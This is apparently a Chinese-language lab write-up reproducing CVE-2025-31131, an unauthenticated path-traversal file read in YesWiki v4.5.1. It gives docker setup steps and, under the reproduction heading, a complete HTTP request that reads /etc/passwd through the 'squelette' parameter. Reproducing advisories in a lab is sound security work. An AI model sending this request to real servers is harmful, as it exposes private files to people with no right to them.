



# YesWiki squelette 文件读取漏洞（CVE-2025-31131）

YesWiki是一个用PHP编写的wiki系统。用于以协作方式创建和管理网站。CVE-2025-31131 中，攻击者可在无需登录的情况下构造恶意请求读取遍历文件，造成敏感信息泄漏。

项目开源地址：https://github.com/YesWiki/yeswiki/

参考链接：https://github.com/YesWiki/yeswiki/security/advisories/GHSA-w34w-fvp3-68xm

## 环境搭建

访问链接https://github.com/YesWiki/yeswiki/releases，下载[v4.5.1](https://github.com/YesWiki/yeswiki/releases/tag/v4.5.1)版本

进入docker目录执行如下命令启动YesWiki v4.5.1 环境：

```
docker-compose up
```

镜像拉取并构建好后，浏览器打开http://{{yourip}}:8085/ 进入安装向导页面



继续，这里有可能会出现失败的形况请给YesWiki根目录赋予足够的权限，或者考虑手动将wakka.config.php写到YesWiki根目录下（失败的情况会有提示复制文件内容即可）。




## 漏洞复现

```
GET /?UrkCEO/edit&theme=margot&squelette=..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd&style=margot.css HTTP/1.1
Host: 192.168.76.129:8085
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.105 Safari/537.36
Connection: close
Cache-Control: max-age=0


```

